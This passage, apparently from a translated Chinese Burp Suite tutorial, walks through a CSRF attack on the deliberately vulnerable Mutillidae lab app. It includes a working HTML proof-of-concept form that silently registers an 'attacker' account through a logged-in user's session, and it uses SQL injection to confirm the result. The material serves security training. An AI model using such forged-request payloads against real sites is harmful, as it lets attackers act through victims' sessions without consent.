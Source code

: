 15.  单击此功能后，弹出框将生成注册页面上使用的相同表单，但没有任何 CSRF 令牌保护：

![](../images/00230.jpeg)

16.  如果您使用的是 Burp 社区，您可以通过查看注册页面的源代码轻松重新创建**CSRF PoC**表单：

![](../images/00231.jpeg)

17.  查看页面来源时，向下滚动至`<form>`标记部分。为简洁起见，接下来将重新创建表单。插入`attacker`作为用户名、密码和签名的值。复制以下 HTML 代码并将其保存在名为`csrf.html`的文件中：

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.56.101/mutillidae/index.php?page=register.php" method="POST">
      <input type="hidden" name="csrf-token" value="" />
      <input type="hidden" name="username" value="attacker" />
      <input type="hidden" name="password" value="attacker" />
      <input type="hidden" name="confirm_password" value="attacker" 
/>      <input type="hidden" name="my_signature" value="attacker account" />
      <input type="hidden" name="register-php-submit-button" value="Create Account" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

18.  现在，返回登录屏幕（单击顶部菜单中的登录/注册），使用用户名`ed`和密码`pentest`登录应用程序。
19.  打开机器上保存`csrf.html`文件的位置。将文件拖到浏览器中，ed 将在其中进行身份验证。将文件拖动到此浏览器后，`csrf.html`将在同一浏览器中显示为单独的选项卡：

![](../images/00232.jpeg)

20.  出于演示目的，有一个提交请求按钮。但是，在野外，JavaScript 函数会自动执行为攻击者创建帐户的操作。单击“提交请求”按钮：

![](../images/00233.jpeg)

您应收到攻击者帐户已创建的确认：

![](../images/00234.jpeg)

21.  切换到 Burp 的 Proxy | HTTP history 选项卡，查找恶意执行的用于为攻击者创建帐户的`POST`，同时使用 ed 的身份验证会话：

![](../images/00235.jpeg)

22.  返回**用户信息**页面：OWASP 2013 | A1–注入（SQL）| SQLi–提取数据|用户信息（SQL），再次执行 SQL 注入攻击。您现在将在 account 表中看到 26 行，而不是之前的 25 行：

![](../images/00236.jpeg)

# 它是如何工作的。。。

CSRF 攻击要求经过身份验证的用户会话代表攻击者在应用程序内秘密执行操作。在这种情况下，攻击者利用 ed 的会话重新运行注册表，为攻击者创建帐户。如果`ed`是管理员，那么也可以提升帐户角色。